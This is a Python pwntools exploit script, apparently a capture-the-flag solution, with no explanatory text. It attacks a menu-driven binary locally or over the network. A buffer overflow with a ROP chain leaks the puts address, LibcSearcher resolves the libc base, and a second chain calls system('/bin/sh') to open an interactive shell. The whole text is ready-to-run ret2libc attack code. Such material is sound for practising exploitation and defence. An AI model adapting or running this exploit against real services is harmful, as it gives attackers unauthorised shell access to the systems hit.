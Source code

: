 ```python
def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload(stage, libc, libc_base):
    rop = ROP(elf)

    if stage == 1:
        return flat(
            b"\x00",
            b"A" * 0x57,
            rop.rdi.address,
            elf.got["puts"],
            elf.plt["puts"],
            elf.symbols["main"],
        )
    elif stage == 2:
        return flat(
            b"\x00",
            b"A" * 0x57,
            rop.rdi.address,
            libc_base + libc.dump("str_bin_sh"),
            rop.ret.address,
            libc_base + libc.dump("system"),
            0x0,
        )
    else:
        log.error(b"Failed constructing payload!")


def main():
    target = launch()

    payload = construct_payload(1, None, None)

    target.sendlineafter(b"Input your choice!", b"1")
    target.sendline(payload)
    target.recvuntil(b"Ciphertext")

    leaked_puts = u64(target.recv(0x8).strip().ljust(8, b"\x00"))
    libc = LibcSearcher("puts", leaked_puts)
    libc_base = leaked_puts - libc.dump("puts")

    log.success(f"libc base: {hex(libc_base)}")

    payload = construct_payload(2, libc, libc_base)

    target.sendlineafter(b"Input your choice!", b"1")
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```